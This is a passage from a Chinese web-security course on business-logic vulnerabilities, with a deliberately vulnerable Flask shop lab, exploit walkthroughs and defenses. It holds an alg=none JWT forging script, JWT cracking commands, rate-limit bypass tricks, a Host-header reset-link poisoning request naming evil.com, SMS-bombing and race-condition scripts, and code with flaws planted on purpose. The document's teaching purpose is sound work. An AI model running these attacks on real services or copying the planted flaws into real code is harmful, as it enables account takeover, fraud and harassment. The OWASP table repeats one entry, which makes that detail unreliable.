攻击者：
```http
POST /register
username=hacker&password=123&isAdmin=true
```

直接注册管理员。

### 3.2.4 Rails 经典案例
```ruby
u = User.new(params[:user])
u.save
```

Rails 2012 年之前默认就允许 mass assignment，导致 GitHub 曾被白帽子利用此漏洞把自己加进 Rails 项目管理员（轰动一时）。后来 Rails 引入了 Strong Parameters：

```ruby
u = User.new(user_params)
def user_params
    params.require(:user).permit(:username, :password)
end
```

### 3.2.5 防御
```plain
┌──────────────────────────────────────┐
│ 1. 字段白名单（每个接口显式声明）    │
│ 2. ORM 设置只读字段 / frozen 字段    │
│ 3. 敏感字段单独 setter               │
│ 4. DTO 模式：定义专门的传输对象      │
└──────────────────────────────────────┘
```

**Python 示例**：
```python
# Pydantic DTO
from pydantic import BaseModel

class RegisterDTO(BaseModel):
    username: str
    password: str
    email: str
    # 没有 role / is_admin / balance

@app.route('/register', methods=['POST'])
def register():
    data = RegisterDTO(**request.json)  # 自动拒绝额外字段
    user = User(role='user', is_admin=False, balance=0, **data.dict())
    ...
```

## 3.3 短信邮件轰炸
### 3.3.1 漏洞描述
短信/邮件发送接口没有限速，攻击者填受害者手机号，脚本刷 1000 次，受害者在半夜收到 1000 条验证码短信，造成骚扰和短信通道费用。

### 3.3.2 攻击变种
| 变种 | 描述 |
| --- | --- |
| 单 IP 大量请求 | 最简单 |
| IP 轮换 | 用代理池 |
| 同 IP + 同号 | 单号轰炸 |
| 同 IP + 不同号 | 批量骚扰 |
| 不同 IP + 同号 | 难以限速 |
| 短信轰炸平台 | 黑灰产 API 转发 |


### 3.3.3 业务侧漏洞
很多 APP 真正的漏洞不是"完全没限速"，而是：
+ 限速粒度太粗：只限 IP，不限手机号
+ 限速时间窗口太短：1 分钟 1 条，但脚本每 61 秒发 1 条也能炸
+ 倒计时在前端：用户点"获取验证码"按钮上 60 秒倒计时，但接口本身不限速

### 3.3.4 防御
```plain
┌──────────────────────────────────────────┐
│ 1. 多维度限速：                          │
│    - 同手机号：1 分钟 1 条、1 小时 5 条  │
│    - 同 IP：1 分钟 5 条、1 小时 20 条    │
│    - 同设备指纹：1 小时 10 条            │
│    - 同用户：每天 10 条                  │
│ 2. 图形验证码：发短信前校验              │
│ 3. 滑块/行为验证：异常请求触发           │
│ 4. 风控：新注册号、异地登录、夜间触发    │
│ 5. 通道熔断：单日发送量超限自动停服      │
└──────────────────────────────────────────┘
```

### 3.3.5 Redis 实现限速
```python
def send_sms(phone):
    key_minute = f"sms:minute:{phone}"
    key_hour   = f"sms:hour:{phone}"
    key_day    = f"sms:day:{phone}"

    if redis.incr(key_minute) == 1:
        redis.expire(key_minute, 60)
    if redis.incr(key_hour) == 1:
        redis.expire(key_hour, 3600)
    if redis.incr(key_day) == 1:
        redis.expire(key_day, 86400)

    if int(redis.get(key_minute)) > 1:
        return "1 分钟内只能发 1 条"
    if int(redis.get(key_hour)) > 5:
        return "1 小时内只能发 5 条"
    if int(redis.get(key_day)) > 10:
        return "今日发送次数已达上限"

    actual_send(phone)
```

## 3.4 接口滥用与限速绕过
### 3.4.1 限速绕过技巧
| 服务端限速策略 | 绕过方式 |
| --- | --- |
| 限 IP | 用代理池 / X-Forwarded-For 改 IP |
| 限手机号 | 改手机号（如果是白名单测试） |
| 限 User-Agent | 改 UA |
| 限 Cookie | 不带 Cookie / 换 session |
| 限 token | 重新登录拿新 token |
| 限 URL | URL 后加 `?_=时间戳` / 大小写变换 / 加 `/` |


### 3.4.2 X-Forwarded-For 绕过
很多开发者用：

```python
ip = request.headers.get('X-Forwarded-For', request.remote_addr)
```

`X-Forwarded-For` 是 HTTP 头，可以任意伪造！攻击者每次发请求带不同的 XFF，看起来像不同 IP。

**正确做法**：信任反代链路（Trusted Proxies），从最右开始取。

### 3.4.3 接口滥用案例：爬虫
+ 某招聘 APP 限速 100/分钟，但接口可以查全部简历
+ 攻击者用 100 个 IP，每个 100/分钟 = 1 万/分钟
+ 几小时爬光全国简历

这是逻辑漏洞的"接口未授权"形态。

### 3.4.4 API 速率限制正确实现
+ 使用 nginx limit_req
+ 使用网关层限速（Kong、APISIX）
+ 应用层限速（Redis 滑动窗口）
+ 多维度限速：用户、IP、接口、设备

## 3.5 JWT 逻辑漏洞
JWT 在现代 API 中广泛用于身份认证，逻辑漏洞特别多。

### 3.5.1 JWT 结构复习
```plain
Header.Payload.Signature

eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.abc123
```

Base64 解码后：

```json
Header:  {"alg":"HS256","typ":"JWT"}
Payload: {"user":"admin","exp":1690000000}
Signature: HMAC-SHA256(base64(header) + "." + base64(payload), secret)
```

### 3.5.2 漏洞 1：alg=none
```json
{"alg":"none","typ":"JWT"}
```

部分库支持无签名 JWT。攻击者：

```plain
Header:  eyJhbGciOiJub25lIn0
Payload: eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW4ifQ
Signature: (空)
```

服务端校验通过，认为这是 admin 用户。

### 3.5.3 漏洞 2：算法混淆（RS256 → HS256）
服务端用 RS256（非对称），公钥是公开的。攻击者：

1. 拿到服务端公钥（公开的）
2. 把 Header 改成 `alg=HS256`
3. 用公钥当 HMAC 密钥重新签名
4. 服务端如果用同一个 key 字段配置 RSA 公钥，就可能用 HMAC 验签通过

### 3.5.4 漏洞 3：弱密钥
JWT secret 用弱口令（如 `secret`、`123456`、`jwt_key`），可离线爆破。

工具：

```bash
# hashcat
hashcat -a 0 -m 16500 jwt.txt wordlist.txt
# jwt_tool
python3 jwt_tool.py <JWT> -C -d rockyou.txt
```

### 3.5.5 漏洞 4：Payload 篡改（用户可控）
```python
payload = {
    "user_id": request.form['user_id'],
    "role": request.form['role']      # ← 危险
}
token = jwt.encode(payload, SECRET, algorithm='HS256')
```

把 `role=admin` 提交上去，拿到的 token 就是管理员。

### 3.5.6 漏洞 5：敏感信息泄露
很多开发者把手机号、邮箱、权限、内部 ID 都塞进 payload，Base64 不算加密，等于明文。

### 3.5.7 漏洞 6：token 不撤销
JWT 设计上是无状态的，签发后到过期前一直有效。如果用户改密码、退出登录、被封禁，token 仍然能用。

**防御**：维护黑名单（Redis）或者短时效 + refresh token 机制。

### 3.5.8 漏洞 7：kid 注入
Header 里 `kid` 字段（key id）用于选择验证密钥：

```json
{"alg":"HS256","kid":"../../dev/null"}
```

如果 kid 被用作文件路径，可能引发路径穿越，把 `/dev/null` 当密钥（已知空内容）。

### 3.5.9 JWT 安全清单
```plain
┌──────────────────────────────────────────┐
│ □ 使用强密钥（≥ 256 位随机）             │
│ □ 禁用 alg=none                          │
│ □ 显式指定算法，不接受用户传入的 alg     │
│ □ 设置短时效（15 分钟）+ refresh token   │
│ □ 不要把敏感信息塞 payload               │
│ □ 提供 token 撤销机制                    │
│ □ kid 不要用作路径                       │
│ □ 定期轮换密钥                          │
└──────────────────────────────────────────┘
```

---

## 第 3 课小结
| 模块 | 核心要点 |
| --- | --- |
| IDOR | 不可信对象引用 + UUID 不替代权限校验 |
| Mass Assignment | 字段白名单、DTO |
| 短信轰炸 | 多维度限速 + 验证码 |
| 限速绕过 | XFF 伪造 + 多维度 |
| JWT | 算法混淆 / 弱密钥 / 黑名单 |


## 课间实操 3（20 分钟）
复现 **JWT alg=none 漏洞**：

```python
# jwt_vuln.py
import jwt
from flask import Flask, request, jsonify

app = Flask(__name__)
SECRET = 'my-secret'

@app.route('/login', methods=['POST'])
def login():
    user = request.form['user']
    token = jwt.encode({'user': user, 'role': 'user'},
                       SECRET, algorithm='HS256')
    return jsonify(token=token)

@app.route('/admin')
def admin():
    token = request.headers.get('Authorization', '').replace('Bearer ', '')
    try:
        # 危险：让库自己解析，未指定 algorithms
        data = jwt.decode(token, SECRET, algorithms=None)
    except Exception as e:
        return f"error: {e}", 403
    if data.get('role') == 'admin':
        return "Welcome admin!"
    return "You are not admin"

if __name__ == '__main__':
    app.run(port=5000)
```

**任务**：

1. 正常 `/login` 拿到一个 user 角色 token。
2. 访问 `/admin` 返回 "not admin"。
3. 用 `jwt_tool` 或自己写脚本，构造 `alg=none` 的 token，把 role 改成 admin。
4. 携带新 token 访问 `/admin`，观察是否绕过。

参考构造脚本：

```python
import base64, json

header = {"alg": "none", "typ": "JWT"}
payload = {"user": "hacker", "role": "admin"}

def b64(d): return base64.urlsafe_b64encode(
    json.dumps(d).encode()).rstrip(b'=').decode()

token = f"{b64(header)}.{b64(payload)}."
print(token)
```

---

# 第 4 课 综合靶场实战 + 防御方案 + 真实案例
时长 60 分钟。本课搭建一个完整的"漏洞商城"靶场，串起前 3 课所有知识点，然后讲防御方案和真实案例。

## 4.1 综合靶场搭建
### 4.1.1 靶场架构
```plain
vuln_shop/
├── app.py             # 主应用
├── models.py          # 数据模型
├── templates/         # 页面
│   ├── base.html
│   ├── register.html
│   ├── login.html
│   ├── product.html
│   ├── cart.html
│   ├── checkout.html
│   └── admin.html
├── requirements.txt
└── README.md
```

### 4.1.2 主应用代码
下面是一个**集成了 10+ 个逻辑漏洞**的练习靶场，作为本课程综合实战。

**requirements.txt**：
```plain
flask==3.0.0
flask-sqlalchemy==3.1.1
itsdangerous==2.1.2
```

**models.py**：
```python
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True)
    password = db.Column(db.String(80))
    email = db.Column(db.String(120))
    role = db.Column(db.String(20), default='user')
    is_admin = db.Column(db.Boolean, default=False)
    balance = db.Column(db.Integer, default=0)
    points = db.Column(db.Integer, default=0)

class Product(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    name = db.Column(db.String(80))
    price = db.Column(db.Integer)      # 单位：分
    stock = db.Column(db.Integer)

class Order(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer)
    product_id = db.Column(db.Integer)
    quantity = db.Column(db.Integer)
    total = db.Column(db.Integer)
    status = db.Column(db.String(20), default='pending')

class Coupon(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    code = db.Column(db.String(20))
    discount = db.Column(db.Integer)
    used = db.Column(db.Integer, default=0)

class CheckinLog(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer)
    date = db.Column(db.String(10))
```

**app.py（漏洞版本）**：
```python
from flask import Flask, request, session, redirect, url_for, render_template
from models import db, User, Product, Order, Coupon, CheckinLog
import os, time

app = Flask(__name__)
app.secret_key = 'vuln-shop-secret'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///shop.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
db.init_app(app)

def init_db():
    with app.app_context():
        db.create_all()
        if not User.query.filter_by(username='admin').first():
            db.session.add(User(username='admin', password='admin123',
                                email='admin@shop.local', role='admin',
                                is_admin=True, balance=1000000))
        if not Product.query.first():
            db.session.add(Product(name='Flag', price=9900, stock=1))
            db.session.add(Product(name='Book', price=5000, stock=100))
        if not Coupon.query.first():
            db.session.add(Coupon(code='NEW100', discount=10000, used=0))
        db.session.commit()

def current_user():
    uid = session.get('uid')
    return User.query.get(uid) if uid else None

# ============ 漏洞 1: Mass Assignment 注册 ============
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        # 危险：直接把整个 form 当 kwargs
        kwargs = {k: v[0] if isinstance(v, list) else v
                  for k, v in request.form.to_dict().items()}
        if 'is_admin' not in kwargs:
            kwargs['is_admin'] = False
        if 'role' not in kwargs:
            kwargs['role'] = 'user'
        # 进一步危险：字符串 True/1/yes 都被 SQL 接收
        user = User(**kwargs)
        db.session.add(user)
        db.session.commit()
        return redirect('/login')
    return render_template('register.html')

# ============ 漏洞 2: 用户名枚举 + 无锁定 ============
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        u = request.form['username']
        p = request.form['password']
        user = User.query.filter_by(username=u).first()
        if not user:
            return "用户名不存在"
        if user.password != p:
            return "密码错误"
        session['uid'] = user.id
        return redirect('/')
    return render_template('login.html')

# ============ 漏洞 3: 找回密码 Host 头注入 ============
@app.route('/forgot', methods=['GET', 'POST'])
def forgot():
    if request.method == 'POST':
        email = request.form['email']
        token = 'reset-token-' + os.urandom(8).hex()
        link = f"http://{request.host}/reset?token={token}"
        print(f"[邮件] To: {email}\n{link}")
        return "重置链接已发送至邮箱"
    return render_template('forgot.html')

@app.route('/reset')
def reset():
    token = request.args.get('token', '')
    return f"输入新密码 (token={token})"

# ============ 漏洞 4: 客户端传价格 ============
@app.route('/order', methods=['POST'])
def order():
    user = current_user()
    if not user: return redirect('/login')
    pid = int(request.form['product_id'])
    qty = int(request.form['quantity'])
    price = float(request.form.get('price', 0))   # ← 危险
    total = price * qty
    o = Order(user_id=user.id, product_id=pid, quantity=qty,
              total=int(total*100), status='pending')
    db.session.add(o)
    db.session.commit()
    return f"订单 {o.id} 已创建, 总价 {total}"

# ============ 漏洞 5: IDOR 查看订单 ============
@app.route('/order/<int:oid>')
def view_order(oid):
    # 没校验订单归属
    o = Order.query.get(oid)
    return f"订单号 {o.id} 用户 {o.user_id} 总价 {o.total}"

# ============ 漏洞 6: 优惠券重复使用 + 越找零 ============
@app.route('/apply_coupon', methods=['POST'])
def apply_coupon():
    code = request.form['code']
    oid = int(request.form['order_id'])
    o = Order.query.get(oid)
    c = Coupon.query.filter_by(code=code).first()
    if c:
        o.total -= c.discount    # 不查是否用过，不限制不能为负
        db.session.commit()
    return f"订单 {o.id} 新总价 {o.total}"

# ============ 漏洞 7: 签到无幂等 ============
@app.route('/checkin', methods=['POST'])
def checkin():
    user = current_user()
    user.points += 10
    db.session.commit()
    return "+10 积分"

# ============ 漏洞 8: 提现竞态 ============
@app.route('/withdraw', methods=['POST'])
def withdraw():
    user = current_user()
    amt = int(request.form['amount'])
    if user.balance >= amt:
        time.sleep(0.05)
        user.balance -= amt
        db.session.commit()
        return f"提现成功 {amt}"
    return "余额不足"

# ============ 漏洞 9: 越权管理后台 ============
@app.route('/admin/users')
def admin_users():
    # 仅检查是否有 uid，不检查 is_admin
    if not session.get('uid'):
        return redirect('/login')
    users = User.query.all()
    return render_template('admin.html', users=users)

# ============ 漏洞 10: 短信轰炸 ============
@app.route('/send_sms', methods=['POST'])
def send_sms():
    phone = request.form['phone']
    # 没限速
    print(f"[短信] 发送验证码到 {phone}")
    return "发送成功"

if __name__ == '__main__':
    init_db()
    app.run(host='0.0.0.0', port=5000, debug=True, threaded=True)
```

**templates/base.html**：
```html
<!DOCTYPE html>
<html>
<head><title>VulnShop - 逻辑漏洞靶场</title></head>

<body>
<nav>
  <a href="/">首页</a> |
  <a href="/register">注册</a> |
  <a href="/login">登录</a> |
  <a href="/forgot">找回密码</a> |
  <a href="/admin/users">管理后台</a> |
  <a href="/send_sms">发短信</a>

</nav>

<hr>

</body>

</html>

```

**templates/register.html**：
```html


<h2>注册</h2>

<form method="post">
  用户名: <input name="username"><br>
  密码: <input name="password"><br>
  邮箱: <input name="email"><br>
  <!-- 漏洞：可加 is_admin=true / role=admin / balance=99999 -->
  <button>注册</button>

</form>


```

其余 login.html / forgot.html / admin.html 类似，按需补全。

## 4.2 靶场通关演示
### 关卡 1：Mass Assignment 注册管理员
```bash
curl -X POST http://localhost:5000/register \
  -d "username=h1&password=1&email=h1@x.com&is_admin=1&role=admin&balance=9999999"
```

登录后访问 `/admin/users` 进入后台（结合关卡 9）。

### 关卡 2：用户名枚举
注册 `admin` 不存在？不，先故意输错密码看返回信息：
```plain
用户名 admin → 密码错误（用户存在）
用户名 xxxxx → 用户名不存在（不存在）
```

### 关卡 3：找回密码 Host 注入
```bash
curl -X POST http://localhost:5000/forgot \
  -H "Host: evil.com" \
  -d "email=victim@example.com"
```

服务端控制台打印：
```plain
[邮件] To: victim@example.com
http://evil.com/reset?token=reset-token-xxxxxxxx
```

### 关卡 4：客户端改价格
```bash
curl -X POST http://localhost:5000/order \
  -b "session=xxx" \
  -d "product_id=1&quantity=1&price=0.01"
```

1 分钱买 Flag。

### 关卡 5：IDOR 看他人订单
```bash
curl http://localhost:5000/order/1   # 自己
curl http://localhost:5000/order/2   # 别人的也看得到
```

### 关卡 6：优惠券重复 + 负数
```bash
for i in 1 2 3 4 5; do
  curl -X POST http://localhost:5000/apply_coupon \
    -d "order_id=1&code=NEW100"
done
```

5 次后订单总价变 -40000。

### 关卡 7：签到狂刷
```bash
for i in $(seq 1 100); do
  curl -X POST http://localhost:5000/checkin -b "session=xxx"
done
```

积分飙升 1000。

### 关卡 8：提现竞态
```python
import requests, threading
S = requests.Session()
S.post('http://localhost:5000/login', data={'username':'h1','password':'1'})

def fire():
    print(S.post('http://localhost:5000/withdraw',
                 data={'amount': 1000}).text)

ts = [threading.Thread(target=fire) for _ in range(50)]
[t.start() for t in ts]; [t.join() for t in ts]
```

理论上余额会变成很大的负数。

### 关卡 9：越权管理后台
注册一个普通用户登录后，直接访问 `/admin/users` 即可看到全部用户（含 admin 的密码字段）。

### 关卡 10：短信轰炸
```bash
for i in $(seq 1 1000); do
  curl -X POST http://localhost:5000/send_sms -d "phone=13800000000"
done
```

服务端控制台狂刷 1000 条。

## 4.3 防御方案
### 4.3.1 通用原则
```plain
┌─────────────────────────────────────────────┐
│ 1. 永远不要信任客户端                          │
│ 2. 关键字段服务端取（价格、权限、状态）          │
│ 3. 字段白名单（DTO）                          │
│ 4. 状态机推进（不允许跳步/回退）                │
│ 5. 原子操作（事务 + 锁）                       │
│ 6. 幂等设计（唯一约束、token 去重）             │
│ 7. 多维度限速                                 │
│ 8. 关键操作审计 + 二次验证                     │
│ 9. 安全左移：threat modeling 在设计阶段做      │
│ 10. 红队/SDL 评审：上线前业务逻辑 review       │
└─────────────────────────────────────────────┘
```

### 4.3.2 限速方案对比
| 方案 | 优点 | 缺点 |
| --- | --- | --- |
| nginx limit_req | 简单 | 粒度粗 |
| 网关层 | 多维度 | 多一层依赖 |
| Redis 滑动窗口 | 精确 | 需要管理 |
| 令牌桶 | 平滑 | 实现稍复杂 |


### 4.3.3 OWASP API Security Top 10（2023）
逻辑漏洞在 API 安全 Top 10 中占大头：

| 排名 | 名称 | 与本课对应 |
| --- | --- | --- |
| API1 | BOLA (Broken Object Level Auth) | IDOR |
| API2 | BFLA (Broken Function Level Auth) | 越权 / 后台 |
| API3 | Broken Object Property Level Auth | Mass Assignment |
| API4 | Unrestricted Resource Consumption | 短信轰炸 / 竞态 |
| API5 | Broken Function Level Authorization | 跳步 |
| API6 | Unrestricted Access to Sensitive Flows | 业务流程 |
| API7 | SSRF | SSRF 课件 |
| API8 | Security Misconfiguration | JWT 配置 |
| API9 | Inventory Management | 旧接口 |
| API10 | Unsafe API Consumption | 第三方 API |


## 4.4 真实案例
### 4.4.1 拼多多百元无门槛券（2019）
```plain
事件：2019 年 1 月 20 日凌晨，拼多多出现"100 元无门槛通用券"
原因：优惠券领取逻辑漏洞 + 不限领取次数 + 不限使用次数
后果：数小时内被薅损失过亿（具体数字官方未公布）
经验：优惠券必须有"总库存、每用户限领、每订单限用、不能为负"四重校验
```

### 4.4.2 某航司负价机票（2018）
```plain
事件：某航空公司系统升级时，外币转换导致机票价格为负
后果：大量用户 0 元甚至"赚钱"购买机票
经验：金额计算要校验 > 0；币种转换要复核
```

### 4.4.3 CVE-2019-XXXX 某银行转账竞态
```plain
事件：某银行手机银行转账接口存在竞态条件
利用：用户余额 1000 元，开 50 个线程并发转账 1000 元到配偶账户
后果：理论上转出 50000 元（实际受央行风控拦截大部分）
经验：金融系统必须数据库行锁 + 流水审计
```

### 4.4.4 GitHub Mass Assignment（2012）
```plain
事件：白帽子 homakov 利用 Rails 默认 mass assignment 漏洞，把自己加进 Rails 官方仓库的 collaborator
原因：Rails 默认 Model.new(params) 接受所有字段
后果：Rails 紧急引入 Strong Parameters
经验：所有 ORM 都要用白名单
```

### 4.4.5 某社交平台任意账号劫持（2020）
```plain
事件：找回密码接口接受客户端传的"新密码"字段
利用：step1 输入自己账号 → step2 通过自己验证码 → step3 改 username 为受害者 → 重置成功
后果：可劫持任意账号
经验：找回密码每步必须服务端校验账号一致性
```

### 4.4.6 英国电信 BT 验证码漏洞（2017）
```plain
事件：找回密码的验证码可重用
利用：拿到一次验证码后无限重放
后果：任意账号重置
经验：验证码一次性、过期删除
```

### 4.4.7 Stripe 单包竞态（2023 公开）
```plain
事件：James Kettle 公开 Single-Packet Race Condition 论文
利用：HTTP/2 单包多请求，让 20-30 个请求同时到达服务端
后果：大量竞态漏洞被批量触发（提现、优惠券、投票、签到）
经验：单请求校验不够，需要原子操作（行锁/CAS/唯一约束）
```

### 4.4.8 Optus / 雅虎 / Yahoo 逻辑问题
> 由于案例众多，建议参考 HackerOne / HackerOne Reports 榜单，按 "Business Logic" 标签检索。
>

---

## 附录 A 必背 30 条
```plain
1. 逻辑漏洞是业务设计缺陷，不是语法错误
2. WAF 几乎扫不出逻辑漏洞
3. 价格永远从服务端数据库取
4. 数量必须服务端校验 > 0 且为整数
5. 金额用整数（分）或 Decimal，避免浮点
6. 支付回调必须验签
7. 订单状态机：paid 不能再 paid
8. 优惠券：总库存 + 每人限领 + 每单限用 + 不找零
9. 找回密码 token = secrets.token_urlsafe(32)
10. 找回密码 token 一次性 + 短时效（10 分钟）
11. 不要把 reset link 用 request.host 拼
12. 找回密码每步服务端校验账号一致性
13. 短信验证码 6 位 + 1 分钟冷却 + 失败锁定
14. 短信限速：手机号 + IP + 设备 + 用户多维度
15. 登录统一错误信息"用户名或密码错误"
16. 登录失败 5 次锁定 15 分钟
17. 注册字段白名单，不允许 is_admin/role 从客户端
18. IDOR：每个对象查询带 user_id 过滤
19. UUID 不替代权限校验
20. Mass Assignment：白名单字段或 DTO
21. 竞态条件：行锁、CAS、唯一约束、状态机
22. 幂等：用 idempotency_key + 唯一约束
23. 限速：手机号 + IP + 设备 + 用户 + 接口五维
24. X-Forwarded-For 可伪造，不可信
25. JWT 禁用 alg=none
26. JWT 密钥至少 256 位随机
27. JWT 短时效（15 分钟）+ refresh token
28. 关键操作（支付/转账）二次验证
29. 业务流程跳步：服务端状态机推进
30. OWASP API Top 10 中逻辑类漏洞占一半
```

## 附录 B 课后作业
### 必做
1. **搭建 VulnShop 靶场**，按 4.2 关卡顺序通关 10 个漏洞，每个关卡提交：
    - 漏洞描述
    - PoC（HTTP 请求 / curl 命令）
    - 修复方案（代码 diff）
2. **修复 VulnShop**：把所有漏洞修掉，重新运行确认无法利用。
3. **竞态实测**：用 Turbo Intruder 或 Python threading 脚本，测量提现接口在不同并发数下的成功率（10、30、50、100 线程）。

### 选做
4. 在 HackerOne 上检索 `business-logic` 标签，挑 3 个公开报告阅读，总结漏洞模式。
5. 阅读 OWASP API Security Top 10 2023 完整文档，整理思维导图。
6. 阅读 James Kettle 的《Single-Packet Race Condition》论文（PortSwigger Research 官网），理解 HTTP/2 竞态原理。
7. 自己设计一个有 3 个逻辑漏洞的小项目（如投票系统、积分商城），让同学互测。

### 进阶
8. 学习使用 Burp 插件 Autorize / AuthMatrix / Turbo Intruder，写一份工具对比报告。
9. 调研业界"业务安全"产品（阿里聚安全、腾讯天御、同盾科技），对比它们如何检测逻辑漏洞。
10. 阅读《Web Security Testing Guide (OWASP WSTG)》中 Business Logic Testing 章节，整理测试用例清单。


